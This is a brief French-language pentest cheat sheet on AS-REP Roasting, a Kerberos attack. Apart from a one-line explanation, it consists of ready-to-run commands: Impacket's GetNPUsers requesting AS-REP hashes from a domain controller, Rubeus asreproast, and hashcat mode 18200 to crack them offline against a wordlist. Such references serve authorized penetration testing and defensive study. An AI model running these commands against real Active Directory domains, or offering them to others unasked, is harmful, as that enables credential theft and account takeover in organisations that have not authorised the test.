 # AS-REP Roasting

AS-REP Roasting vide les hachages krbasrep5 des comptes d'utilisateurs pour lesquels la pré-authentification Kerberos est désactivée.

**Impacket**

```sh
impacket-GetNPUsers.py pwnlab.local/user:password -dc-ip 192.168.x.x -request
```

**Rubeus**

```sh
C:\User\Administrator> Rubeus.exe asreproast
```

```sh
hashcat -m 18200 hash.txt Pass.txt
```